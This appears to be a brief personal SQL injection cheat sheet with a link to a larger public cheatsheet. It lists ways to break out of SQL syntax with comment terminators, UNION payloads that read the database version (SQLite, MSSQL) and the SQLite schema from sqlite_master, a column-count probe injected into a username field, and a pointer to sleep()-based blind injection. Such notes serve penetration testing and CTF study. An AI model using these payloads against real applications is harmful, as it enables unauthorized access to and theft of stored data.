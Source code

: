 [Advance SQLi Cheatsheet](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/)

# Tips
- Text case
# Separating SQL Syntax
Can try with:
- `' <COMMAND> -- -`
- `' <COMMAND> #`
- `' <COMMAND> '`
# Union Attacks
## Get Version
- SQLite
```
' UNION SELECT sqlite_version()'
```
- MSSQL
```
' UNION SELECT @@version'
```
## Table Metadata
### Table Structure
- SQLite
```
' UNION SELECT group_concat(sql) FROM sqlite_master '
```
### Cardinality
```
username=admin' UNION SELECT 1,2,3;--
```
# Blind Injection
use `sleep()`